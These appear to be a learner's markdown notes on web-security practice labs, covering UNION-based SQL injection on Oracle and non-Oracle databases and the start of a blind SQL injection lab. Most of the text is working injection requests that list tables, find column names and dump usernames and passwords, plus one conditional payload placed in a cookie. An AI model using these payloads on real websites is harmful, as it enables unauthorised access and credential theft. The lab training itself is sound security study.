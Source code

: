 
## Lab - 9: SQL injection attack, listing the database contents on non-Oracle databases

- There are 2 string datatype columns
- `GET /filter?category=Gifts'+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables-- HTTP/1.1` will get the name of the user table

> table_name = 'users_xvzwev'

- `GET /filter?category=Gifts'+UNION+SELECT+COLUMN_NAME,DATA_TYPE+FROM+information_schema.columns+WHERE+table_name='users_xvzwev'-- HTTP/1.1`

> columns = password_otojxu , username_gfdqod

- `GET /filter?category=Gifts'+UNION+SELECT+password_otojxu,username_gfdqod+FROM+users_xvzwev-- HTTP/1.1`

will get the administrator password

---

## Lab - 10: SQL injection attack, listing the database contents on Oracle

- There are 2 string datatype columns returned
- `GET /filter?category=Pets'+UNION+SELECT+TABLE_NAME,'b'+FROM+all_tables-- HTTP/1.1`

> table_name = USERS_MZGWOV

- `GET /filter?category=Pets'+UNION+SELECT+COLUMN_NAME,'b'+FROM+all_tab_columns+WHERE+table_name='USERS_MZGWOV'-- HTTP/1.1`

> column_names = PASSWORD_HQOOJT, USERNAME_HIHHBB

- `GET /filter?category=Pets'+UNION+SELECT+USERNAME_HIHHBB,+PASSWORD_HQOOJT+FROM+USERS_MZGWOV-- HTTP/1.1`

- **In finding column names, single quote contains for table_name and no single quote for SELECT command**

---

# Blind SQL Injection

## Lab - 11: Blind SQL injection with conditional responses

- The database contains a different table called `users`, with columns called `username` and `password`

- This lab is vulnerable at `TrackingId`

```
GET /filter?category=Pets HTTP/1.1
Host: 0a2700230491d608c095ed200029003c.web-security-academy.net
Cookie: TrackingId=M1fXINMDA2LR2zH6'+AND+1=2--; session=r7hAOvwxNLrTPkJe1cBfOHPKEF5GFoUq
```
